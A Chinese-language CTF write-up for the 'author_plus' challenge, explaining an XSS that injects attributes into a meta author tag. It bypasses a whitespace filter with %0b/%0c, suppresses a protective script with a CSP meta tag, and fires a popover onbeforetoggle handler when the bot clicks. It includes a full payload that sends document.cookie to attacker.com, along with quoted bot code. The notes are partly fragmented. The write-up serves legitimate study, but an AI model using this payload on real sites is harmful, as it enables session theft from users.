

# author_plus

## 题目简述

这一题仍围绕 author meta 注入，但 bot 会点击审核/拒绝按钮，且 username 过滤了常规空白与尖括号。解法利用浏览器解析差异中的 `%0b`、`%0c` 作为属性分隔，并借助 popover 的 `onbeforetoggle` 在 bot 操作时触发 XSS。

## 解题过程

### 关键观察

这一题仍围绕 author meta 注入，但 bot 会点击审核/拒绝按钮，且 username 过滤了常规空白与尖括号。

### 求解步骤

bot点了两个按钮
<meta name="author" content=<?php echo $pageAuthor; ?>>
username='script-src-elem <http://blog-app/assets/js/article.js>' http-
equiv=Content-Security-Policy
' +
encodeURI(document.cookie))">
await page.goto(article_url, { timeout: 3000, waitUntil: 'domcontentloaded' })

        const auditBtn = await page.$('#audit');
        if (auditBtn) {
            await Promise.all([
                auditBtn.click(),
                page.waitForNavigation({ waitUntil: 'domcontentloaded' }),
            ]);
        }

        let rejectBtn = null;
        try {
            rejectBtn = await page.waitForSelector('.btn-reject', { visible:
true, timeout: 5000 });
https://x.com/avlidienbrunn/status/1676549516785221635
其实meta也可以用来放unsafe-inline类型的js
a popover id=x onbeforetoggle=alert(1)
当然我们依旧需要csp来限制xss-shield的破坏
实际上这个过滤并不安全，我测试后使用了两种不同解析结果的空白符
%0b 垂直方向制表符
%0c 换页符
来完成规则的编写和脚本的插入
        } catch (err) {}
        if (rejectBtn) {
            await rejectBtn.click();
        }
<head>
<meta name="author" content="a" popover id=x onbeforetoggle=alert(1) />
</head>
<body>
<button id=audit popovertarget=x>Click me</button>

actual popover

</body>
preg_match('/[<>\\'"\\x20\\t\\r\\n]/', $username)
username=script-src-elem%0bhttp://blog-app/assets/js/article.js%0chttp-
equiv=Content-Security-
Policy%0cpopover%0cid=x%0conbeforetoggle=location.href=`http://attacker.com:12
34/?
c=${encodeURI(document.cookie)}`&email=9@le0n.com&password=111111&confirm_pass
word=111111&csrf_token=c4bb4bfbfbc051eb3ca51912cac3e6ea70b37cc092688fc5f8c313e
611543d5f

### 参考链接补充

外链推文对应的技术点是 HTML `popover` 事件触发 XSS。关键不是 `<script>` 标签本身，而是浏览器在解析属性时接受更多空白分隔符，并且 popover 被打开/关闭时会触发 `beforetoggle`：

- 题目正则只过滤了尖括号、引号、空格、`\t`、`\r`、`\n`，但没有覆盖垂直制表符 `%0b` 和换页符 `%0c`。这些字符在 HTML 属性解析中仍可作为分隔，从而把 `meta name=author content=...` 打散成额外属性。
- bot 会点击审核按钮；页面中若存在 `popovertarget=x` 与 `popover id=x`，点击会触发对应 popover 的 `beforetoggle` 事件。
- 因为站内还有 `xss-shield` 干扰，payload 先用 CSP meta 限制脚本来源/行为，再把外带逻辑放到 `onbeforetoggle`，由 bot 点击动作触发 cookie 回传。

因此本题的 payload 需要同时满足三件事：用非常规空白绕过 PHP 正则、用 CSP meta 压制防护脚本、用 popover 交互事件替代页面加载时执行。

### PDF 图片

### PDF 外链

- <https://x.com/avlidienbrunn/status/1676549516785221635>
- <https://portswigger.net/research/exploiting-xss-in-hidden-inputs-and-meta-tags>

## 方法总结

- 核心技巧：浏览器空白符解析差异、popover 事件触发 XSS。
- 识别信号：正则只过滤常规空白和符号，但 HTML 属性解析接受更多分隔字符。
- 复用要点：bot 会点击按钮时，可把 payload 绑定到交互事件而不是页面加载。
